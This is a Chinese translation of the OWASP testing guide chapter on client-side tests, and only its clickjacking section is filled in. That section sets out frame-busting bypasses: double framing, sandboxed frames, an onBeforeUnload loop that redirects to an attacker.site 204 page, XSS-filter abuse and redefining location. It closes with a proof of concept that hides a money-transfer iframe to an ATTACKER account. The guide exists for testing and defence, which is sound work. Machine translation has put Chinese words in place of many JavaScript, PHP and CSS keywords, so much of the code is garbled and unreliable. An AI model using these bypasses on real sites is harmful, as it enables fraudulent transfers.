


# 第12讲 客户端类测试

-  基于DOM的跨站脚本测试 Testing for DOM-Based Cross Site Scripting
-  JavaScript 执行测试 Testing for JavaScript Execution
-  HTML注入测试 Testing for HTML Injection
-  客户端URL重定向测试 Testing for Client Side URL Redirect
-  CSS注入测试 Testing for CSS Injection
-  客户端资源操作测试 Testing for Client Side Resource Manipulation
-  跨源资源共享测试 Testing Cross Origin Resource Sharing
-  跨站Flash测试 Testing for Cross Site Flashing
-  点击劫持测试 Testing for Clickjacking
-  WebSockets测试 Testing WebSockets
-  Web消息测试 Testing Web Messaging
-  浏览器存储测试 Testing Browser Storage
-  跨站脚本包含测试 Testing for Cross Site Script Inclusion

## 基于DOM的跨站脚本测试 Testing for DOM-Based Cross Site Scripting


## JavaScript 执行测试 Testing for JavaScript Execution


## 点击劫持测试 Testing for Clickjacking

ID： WSTG-CLNT-09

### 摘要
Clickjacking是UI redressing 的子集，它是一种恶意技术，欺骗Web用户与恶意页面交互（大多数情况下是通过单击）。在受害者点击看似无害的网页交互时，事实上可能会发送未经授权的命令或泄露机密信息。点击劫持一词是耶利米·格罗斯曼（Jeremiah Grossman）和罗伯特·汉森（Robert Hansen）在2008年提出的。

单击劫持攻击使用HTML和JavaScript的看似无害的功能来迫使受害者执行不希望的动作，例如单击某个的不可见按钮。这是一个客户端安全问题，会影响各种浏览器和平台。

攻击者会创建了一个看似无害的网页，该网页通过使用嵌入式框架inline frame（隐藏在CSS代码中）来加载目标应用程序。完成此操作后，攻击者可能会诱使受害者通过其他方式（例如，通过社交工程）与网页进行交互。像其他攻击一样，常见的先决条件是针对攻击者的目标网站对受害者进行身份验证。




受害者浏览攻击者的网页的目的是与可见的用户界面进行交互，但无意中对隐藏的页面执行了操作。使用隐藏的页面，攻击者可以通过在网页中放置隐藏的元素来欺骗用户执行他们从未打算执行的操作。

此方法的强大功能是受害者执行的操作源自隐藏但真实的目标网页。因此，可以绕过开发人员为保护网页免受CSRF攻击而部署的一些反CSRF保护。

### 测试方法
如上所述，即使使用了反CSRF令牌，这种类型的攻击也通常被设计为允许攻击者在目标站点上诱使用户采取措施。应该进行测试以确定网站页面是否容易受到点击劫持攻击。

测试人员可以通过创建一个简单的网页（其中包含一个包含目标网页的框架）来调查目标网页是否可以加载到嵌入式框架中。以下代码段显示了用于创建此测试网页的HTML代码示例：

```html
<html>
    <head>
        <title>Clickjack test page</title>
    </head>
    <body>
        <iframe src="https://www.target.site" width="500" height="500"></iframe>
    </body>
</html>
```
如果将 http://www.target.site 页面成功加载到框架中，则该站点容易受到攻击，并且没有针对点击劫持攻击的保护措施。

#### 绕过点击劫持保护
如果该 http://www.target.site 页面未出现在嵌入式框架中，则该站点可能具有某种形式的防止点击劫持的保护措施。例如响应头中设置：```X-Frame-Options: deny```.

主要的防护方法有3类：
- Preventing the browser from loading the page in frame using the X-Frame-Options or Content Security Policy (frame-ancestors) HTTP headers.
- Preventing session cookies from being included when the page is loaded in a frame using the SameSite cookie attribute.
- Implementing JavaScript code in the page to attempt to prevent it being loaded in a frame (known as a "frame-buster").

**重要的是要注意，这不能保证页面完全不受点击劫持。**

保护网页免遭点击劫持的方法可以分为几种主要机制。在某些情况下，可以通过采用特定的解决方法来绕开这些方法。有关点击劫持防御的更多OWASP资源，请参阅[OWASP点击劫持防御备忘单](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html)。

##### 客户端保护：Frame Busting
为了保护网页免遭点击劫持而开发的最常见的客户端方法称为“Frame Busting”，它由每个页面中不应构成框架的脚本组成。此技术的目的是防止将站点加载到框架中时使其起作用。

Frame Busting代码的结构通常由“条件语句”和“counter-action”语句组成。对于这种类型的保护，有些解决方法以“Bust frame busting”的名义出现。其中一些技术是特定于浏览器的，而其他技术则可跨浏览器使用。

##### 手机网站版本
网站的移动版本通常比台式机更小和更快，并且它们必须比主应用程序更简单。由于错误地假设攻击者无法通过智能手机攻击应用程序，因此移动变体的保护程度通常较低。从根本上讲这是错误的，因为攻击者可以伪造Web浏览器给出的真实来源，从而使非移动受害者可以访问为移动用户制作的应用程序。从这个假设可以得出结论，在某些情况下，当存在不受保护的替代方案（允许使用相同的攻击媒介）时，无需使用技术来逃避帧破坏。

##### Double Framing

一些帧清除技术试图通过在“counter-action”语句中为“ parent.location”属性分配值来破坏帧。

例如，此类操作为：
- self.parent.location = document.location
- parent.location.href = self.location
- parent.location = self.location

在目标页面由单个页面框住之前，此方法效果很好。但是，如果攻击者将目标网页封闭在一个框架中，而该框架又嵌套在另一个框架中（一个双框架），则由于后代框架导航，尝试访问“ parent.location”在所有流行的浏览器中都会违反安全性政策。此安全冲突会禁用反操作导航。

目标站点框架破坏代码（目标站点）：

如果（顶部，位置！= 自我。locaton ） { 
    父。位置 =  自我。位置; 
}
攻击者的顶层框架（fictitious2.html）：

< iframe  src =“ fictitious.html ” >
攻击者的虚拟子框架（fictitious.html）：

< iframe  src =“ http：//目标网站 ” >
禁用JavaScript
由于这些类型的客户端保护依赖于JavaScript框架无效代码，因此，如果受害者禁用了JavaScript或攻击者有可能禁用JavaScript代码，则网页将没有任何防止点击劫持的保护机制。

框架可以使用三种停用技术：

Internet Explorer的受限制的框架：从Internet Explorer 6开始，框架可以具有“安全”属性，如果将其设置为“ restricted”值，则可以确保JavaScript代码，ActiveX控件和重定向到其他站点在框架中不起作用。
例：

< iframe  src =“ http：//目标站点 ” 安全 =“ 受限 ” > </ iframe >
沙箱属性：在HTML5中，有一个名为“沙箱”的新属性。它对加载到iframe中的内容启用了一系列限制。目前，此属性仅与Chrome和Safari兼容。
例：

< iframe  src =“ http：//目标站点 ” 沙箱> </ iframe >
设计模式：Paul Stone展示了一个与“ designMode”有关的安全性问题，该问题可以在框架页面中打开（通过document.designMode），从而在顶部和子框架中禁用JavaScript。目前，该设计模式已在Firefox和IE8中实现。
OnBeforeUnload事件
该onBeforeUnload事件可用于逃避帧破坏代码。当框架无效代码希望通过将URL加载到整个网页（而不仅是iframe）中来破坏iframe时，会调用此事件。处理程序函数返回一个字符串，该字符串会提示用户，要求其确认是否要离开页面。当向用户显示此字符串时，可能会取消导航，从而挫败了目标的帧破坏尝试。

攻击者可以通过使用以下示例代码在首页上注册卸载事件来使用此攻击：

< h1 > www.fictitious.site </ h1 > 
< 脚本> 
    窗口。onbeforeunload  =  function （）
    { 
        返回 “您是否想离开虚拟站点？” ; 
    } 
</ 脚本> 
< iframe  src =“ http：//目标站点 ” >
先前的技术需要用户交互，但是可以在不提示用户的情况下实现相同的结果。为此，攻击者必须通过重复（例如，每毫秒）将导航请求提交到响应“ HTTP / 1.1 204 No Content”标头的网页来自动取消onBeforeUnload事件处理程序中的传入导航请求。

由于使用此响应，浏览器将不执行任何操作，因此该操作的结果是刷新请求管道，从而使原始帧清除尝试无效。

遵循示例代码：

204页：

<？php 
    标头（“ HTTP / 1.1 204 No Content”）；
？>
攻击者页面：

< 脚本> 
    var  prevent_bust  =  0 ; 
    窗口。onbeforeunload  =  function （） { 
        prevent_bust ++ ; 
    } ; 
    的setInterval （
        函数（） { 
            如果 （prevent_bust  >  0 ） { 
                prevent_bust  - =  2 ; 
                窗口。顶部。位置 =  “http://attacker.site/204.php” ; 
            } 
        } ， 1 ）; 
</ 脚本> 
< iframe  src =“ http：//目标网站 ” >
XSS过滤器
从Google Chrome 4.0和IE8开始，引入了XSS过滤器，以保护用户免受反射的XSS攻击。Nava和Lindsay已经观察到，这类过滤器可以伪装成恶意代码，从而用于停用帧无效代码。

IE8 XSS过滤器：此过滤器可以查看流经Web浏览器的每个请求和响应的所有参数，并将其与一组正则表达式进行比较，以查找反射的XSS尝试。当过滤器识别出可能的XSS攻击时；它会禁用页面中的所有内联脚本，包括框架清除脚本（使用外部脚本可以完成相同操作）。因此，攻击者可以通过将帧破坏脚本的开头插入请求的参数中来引起误报。
示例：目标网页框架无效代码：

< 脚本> 
    if  （ top！= self  ）
    { 
        top 。位置= 自我。位置; 
    } 
</ 脚本>
攻击者代码：

< iframe  src = ” http：//目标 站点 /？param = <脚本>如果” >
Chrome 4.0 XSSAuditor过滤器：与IE8 XSS过滤器相比，它的行为略有不同，实际上，攻击者可以通过在请求参数中传递其代码来停用“脚本”。这使框架页面可以专门针对包含帧清除代码的单个代码段，而其他所有代码均保持不变。
示例：目标网页框架无效代码：

< 脚本> 
    if  （ top！= self  ）
    { 
        top 。位置= 自我。位置; 
    } 
</ 脚本>
攻击者代码：

< iframe  src = “ http：//目标 站点 /？param = if（top +！％3D + self）+％7B + top.location％3Dself.location％3B +％7D” >
重新定义位置
对于多个浏览器，“ document.location”变量是不可变的属性。但是，对于某些版本的Internet Explorer和Safari，可以重新定义此属性。可以利用这一事实来规避帧破坏代码。

在IE7和IE8中重新定义位置：可以重新定义“位置”，如以下示例所示。通过将“位置”定义为变量，任何尝试通过分配“ top.location”进行读取或导航的代码都将由于安全违规而失败，因此将暂停帧破坏代码。
例：

< 脚本> 
    var  location  =  “ xyz” ; 
</ 脚本> 
< iframe  src =“ http：//目标站点 ” > </ iframe >
在Safari 4.0.4中重新定义位置：要使用“ top.location”破坏框架破坏代码，可以通过defineSetter（通过窗口）将“ location”绑定到函数，以便尝试读取或导航到“ top”。位置”将失败。
例：

< 脚本> 
    窗口。defineSetter （“ location”  ， function （）{ } ）; 
</ 脚本> 
< iframe  src =“ http：//目标站点 ” > </ iframe >
服务器端保护：X-Frame-Options
Microsoft实现了一种替代客户端框架破坏代码的方法，它包括基于标头的防御。服务器在HTTP响应上发送了这个新的“ X-FRAME-OPTIONS”标头，该标头用于标记不应加框的网页。此标头可以采用值DENY，SAMEORIGIN，ALLOW-FROM来源或非标准ALLOWALL。推荐值为DENY。

“ X-FRAME-OPTIONS”是一个非常好的解决方案，已被主流浏览器采用，但是对于此技术，也存在一些局限性，无论如何都可能导致利用clickjacking漏洞。

浏览器兼容性
自2009年推出“ X-FRAME-OPTIONS”以来，此标头与旧的浏览器不兼容。因此，每个没有更新浏览器的用户都可能成为clickjacking攻击的受害者。

浏览器	最低版本
IE浏览器	8.0
Firefox（壁虎）	3.6.9（1.9.2.9）
歌剧	10.50
苹果浏览器	4.0
铬	4.1.249.1042
代理人
Web代理已知用于添加和剥离标头。如果Web代理剥离“ X-FRAME-OPTIONS”标头，则站点将失去其框架保护。

手机网站版本
同样在这种情况下，由于X-FRAME-OPTIONS必须在网站的每个页面中实施，因此开发人员可能未保护网站的移动版本。

创建概念证明
一旦发现我们正在测试的网站容易受到点击劫持攻击，我们就可以继续开发proof of concept（PoC）来演示该漏洞。重要的是要注意，如前所述，这些攻击可以与其他形式的攻击（例如CSRF攻击）结合使用，并且可以克服反CSRF令牌。在这方面，我们可以想象，例如，目标站点允许经过身份验证和授权的用户将资金转移到另一个帐户。

假设要执行转移，开发人员已计划了三个步骤。第一步，用户用目的地帐户和金额填写表格。在第二步中，每当用户提交表单时，都会显示一个摘要页面，询问用户确认信息（类似于下图中显示的内容）。

点击劫持示例步骤2
图4.11.9-3：Clickjacking示例步骤2

在步骤2的代码片段之后：

//生成随机反CSRF令牌
$ csrfToken = md5（uniqid（rand（），TRUE））;

//将令牌设置为会话数据中的
$ _SESSION ['antiCsrf'] = $ csrfToken;

//使用隐藏字段传输表单
$ form ='
< 表单 名称 =“ transferForm ” action =“ Confirm.php ” 方法 =“ POST ” > 
        < div  类 =“ box ” > 
        < h1 >银行XYZ-确认转移</ h1 > 
        < p > 
        是否要确认转移的< b > '。$ _REQUEST ['amount']。' ＆欧元; </ b >表示：< b > '。$ _REQUEST ['account']。' </ b>？
        </ p > 
        < 标签> 
            < 输入 类型 =“ 隐藏 ” 名称 =“ 金额 ” 值 =“ '。$ _REQUEST ['amount']。' ” />
             < 输入 类型 =“ 隐藏 ” 名称 =“ 帐户 ” 值 = “ '。$ _REQUEST ['account']。' ” />
             < 输入 类型 =“ 隐藏 ”=“ '。$ csrfToken。' ” />
             < 输入 类型 =“ 提交 ” 类 =“ 按钮 ” 值 =“ 转帐 ” />
         </ 标签>

        </ div > 
</ form > ';
最后一步是计划好的安全控制，然后，如果一切正常，则转移完成。在下面的清单中，提供了最后一步的代码片段：

注意：在此示例中，为简单起见，没有输入清理，但与阻止此类攻击没有关联

如果（ （！空（$ _SESSION [ 'antiCsrf' ] ）） &&  （！空（$ _POST [ 'antiCsrf' ] ）） ）
{

    //这里我们可以假设输入消毒代码…

    //检查反CSRF令牌
    是否（（ （$ _SESSION [ 'antiCsrf' ]  ==  $ _POST [ 'antiCsrf' ] ） ）
    { 
        echo  '<p>' 。 $ _POST [ 'amount' ]  。'＆euro; 成功转移到帐户：“” 。 $ _POST [ 'account' ]  。'</ p>' ; 
    }

} 
else 
{ 
    echo  '<p> Transfer KO </ p>' ; 
}
如您所见，通过第二步中生成的随机令牌并仅接受通过POST方法传递的变量，可以保护代码免受CSRF攻击。在这种情况下，攻击者可能伪造CSRF + Clickjacking攻击来逃避反CSRF保护，并迫使受害者未经其同意进行汇款。

攻击的目标页面是汇款过程的第二步。由于开发人员仅将安全控件放在最后一步，以为这样做足够安全，因此攻击者可以通过GET方法传递account和amount参数。

注意：有一种高级点击劫持攻击，它可以强制用户填写表单，因此在需要填写表单的情况下，该攻击也是可行的

攻击者的页面可能看起来像一个简单而无害的网页，如下所示：

点击劫持示例恶意页面1
图4.11.9-4：Clickjacking示例恶意页面1

但是使用CSS不透明度值，我们可以看到看似无害的网页下隐藏了什么。

点击劫持示例恶意页面2
图4.11.9-5：Clickjacking示例恶意页面2

创建此页面的点击劫持代码如下所示：

< html > 
    < head > 
        < title >受信任的网页</ title >

        < style  type =“ text / css ” > <！- - 
            * {
                 余量：0 ;
                填充：0 ;
            }
            体 {  
                 背景：＃ FFFFFF ;
            }
            。纽扣
            {
                填充：5 像素 ;
                背景：＃ 6699CC ;
                左：275 像素 ;
                宽度：120 像素 ;
                边框：1 px实心＃ 336699；
            }
            ＃内容 {
                 宽度：500 像素 ;
                高度：500 像素 ;
                页边距：150 px ;
                左边距：500 px ;
            }
            ＃点击劫持
            {
                位置：绝对；
                左：172 像素 ;
                顶部：60 像素 ;
                filter：alpha（不透明度= 0）;
                不透明度：0.0
            }
        / / - - > </ 样式>

    </ head > 
    < body > 
        < div  id =“ content ” > 
            < h1 > www.owasp.com </ h1 > 
            < form  action =“ http://www.owasp.com ” > 
                < 输入 类型 =“ 提交 ” class =“ button ” value =“ 单击并开始！ ” > 
            </ form > 
        </ div >

                < iframe  id =“ clickjacking ” src =“ http：//localhost/csrf/transfer.php？account = ATTACKER＆amount = 10000 ” width =“ 500 ” height =“ 500 ” 滚动 =“ no ” frameborder =“ none ” > 
                < / iframe > 
    </ body > 
</ html >
借助CSS（请注意代码#clickjacking块），我们可以对iframe进行遮罩并适当定位，以使其与按钮匹配。如果受害者单击按钮“单击并开始！” 提交表格并完成转移。

点击劫持示例恶意页面3
图4.11.9-6：Clickjacking示例恶意页面3

呈现的示例仅使用基本的点击劫持技术，但是使用高级技术可以强制用户使用攻击者定义的值填写表单。

